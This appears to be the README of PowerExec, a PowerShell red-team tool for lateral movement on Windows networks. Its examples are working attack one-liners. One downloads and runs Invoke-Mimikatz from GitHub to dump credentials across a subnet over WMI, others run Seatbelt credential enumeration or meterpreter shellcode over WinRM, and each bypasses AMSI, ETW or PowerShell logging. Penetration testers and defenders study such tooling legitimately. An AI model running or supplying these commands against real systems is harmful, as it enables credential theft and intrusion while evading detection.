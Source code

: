 # PowerExec

PowerExec is a PowerShell tool to move laterally on a Windows network.

## Functions

```
Invoke-PowerExec                -   execute PowerShell script block on remote computers through various techniques
New-PowerLoader                 -   build script block which safely loads PowerShell, .NET assembly or shellcode
```

## Examples

Run a PowerShell script through WMI using a download cradle while bypassing Antimalware Scan Interface (AMSI) and Event Tracing for Windows (ETW):

```
PS C:\> New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -ArgumentList 'Invoke-Mimikatz -DumpCreds' -Bypass AMSI,ETW | Invoke-PowerExec -ComputerList 192.168.1.0/24 -Protocol WMI -Threads 10
```

Run a .NET assembly through WinRM while bypassing AMSI and ETW:

```
PS C:\> New-PowerLoader -Type NetAsm -FilePath .\Seatbelt.exe -ArgumentList 'CredEnum' -Bypass AMSI,ETW | Invoke-PowerExec -ComputerList 192.168.1.1,192.168.1.2 -Protocol WinRM
```

Run a shellcode through WinRM while bypassing AMSI, Script Block Logging (SBL) and PowerShell Module Logging (PML) :

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin -Bypass AMSI,SBL,PML | Invoke-PowerExec -ComputerList 192.168.1.1 -Protocol WinRM
```

## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
